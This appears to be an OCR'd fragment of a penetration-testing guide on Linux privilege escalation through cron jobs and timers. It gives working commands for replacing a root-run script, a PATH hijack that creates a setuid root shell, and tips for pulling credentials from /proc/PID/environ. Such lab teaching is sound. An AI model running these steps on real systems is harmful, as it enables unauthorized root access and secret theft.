 ```
```

Common exploitation patterns to test (authorized labs only)
```
# 1) Writable root-executed cron script replacement (example)
# Suppose /etc/crontab runs root: /usr/local/bin/backup.sh
TARGET=/usr/local/bin/backup.sh
stat "$TARGET"
# If writable by you, replace with a payload that gives you root control (lab-safe example: write to /tmp)
printf '#!/bin/sh\nid > /tmp/cron_ran_as_root\nwhoami >> /tmp/cron_ran_as_root\n' > "$TARGET"
chmod +x "$TARGET"

# 2) PATH hijack (if root script uses unqualified binary, and a writable dir is ahead in PATH)
# Find PATH in the script and whether directories are writable
SCRIPT=/usr/local/bin/backup.sh
grep -n 'PATH=' "$SCRIPT"
echo "$PATH"
find $(echo "$PATH" | tr ':' ' ') -maxdepth 1 -type d -writable 2>/dev/null

# If /tmp is in PATH before /bin and script calls 'tar' without full path:
echo -e '#!/bin/sh\n/bin/sh -c "id > /tmp/pwn && cp /bin/sh /tmp/sh && chmod +s /tmp/sh"' > /tmp/tar
chmod +x /tmp/tar
# Wait for cron to invoke the script

# 3) Wildcard injection in cron scripts (tar, chown, chmod with *)
# If a root script runs: tar czf backup.tgz *  (and runs in a directory you control)
# Create exploit files for known tar CVE patterns (lab scenario)
```

Cleanup (responsible testing)
```
# Remove artifacts
rm -f /tmp/cron_ran_as_root /tmp/pwn /tmp/tar /tmp/sh /tmp/rootshell 2>/dev/null
```

## Practical tips
- Prefer ps auxwwf and systemctl list-units for a quick, readable overview.
- Secrets often hide in:
  - Process arguments (ps auxww shows full args).
  - /proc/PID/environ (API keys, DB credentials).
  - Working directories of services (/proc/PID/cwd).
- Prioritize root-owned processes/scripts whose paths live under writable directories like /usr/local/, /opt/, /var/www/, shared NFS mounts, or user home directories.
- For cron:
  - Check /etc/crontab, /etc/cron.d/*, and /etc/cron.{hourly,daily,weekly,monthly} for custom jobs.
  - Cron runs with a minimal environment (SHELL=/bin/sh, minimal PATH). Scripts must use absolute paths to be safe; if not, look for PATH hijacks.
  - Validate permissions on both the file and its parent directories (writable dirs enable replacement).
  - Review logs to confirm whether jobs actually execute (and when).
- For systemd timers:
  - Every .timer triggers a .service; inspect ExecStart in the service unit and file permissions.
- Use strings/grep conservatively on /proc to avoid noise; target likely processes first (DB, web servers, backup agents).
- Always document exact findings: job line, file path, owner, perms, timer schedule, and exploitation hypothesis.
